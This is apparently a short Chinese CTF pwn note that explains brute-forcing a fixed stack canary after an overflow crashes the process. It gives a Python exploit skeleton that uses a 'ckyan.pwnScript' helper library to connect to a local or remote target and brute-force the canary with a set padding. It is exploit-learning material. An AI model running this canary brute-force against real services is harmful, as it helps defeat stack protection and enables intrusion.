 

栈溢出之后，进程会退出EOF的（这种一般是远程canary固定，爆破出来为固定值的）如下：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

"""
Author: ckyan
Generation date: 2024-06-28 10:29:32
"""

"""
GitHub:
    https://github.com/c0mentropy/ckyan.pwnScript
Help: 
    python3 exp.py --help
    python3 exp.py debug --help
    python3 exp.py remote --help
Local:
    python3 exp.py debug --file ./pwn
Remote:
    python3 exp.py remote --ip 127.0.0.1 --port 9999 [--file ./pwn] [--libc ./libc.so.6]
    python3 exp.py remote --url 127.0.0.1:9999 [--file ./pwn] [--libc ./libc.so.6]
"""

# ./exp.py de -f ./pwn
# ./exp.py re -f ./pwn -u ""

from ckyan.pwnScript import *

def exp():
    pandora_box.init_script()

    elf = pandora_box.elf
    libc = pandora_box.libc
    p = pandora_box.conn

    ru(b'Welcome!\n')



if __name__ == '__main__':
    # exp()
    canary_attacker = Canary(exp=exp)

    padding = 0x20 - 8

    canary_attacker.brute_force_canary(padding=padding)

    canary = canary_attacker.value
    log_canary(uu64(canary))
```
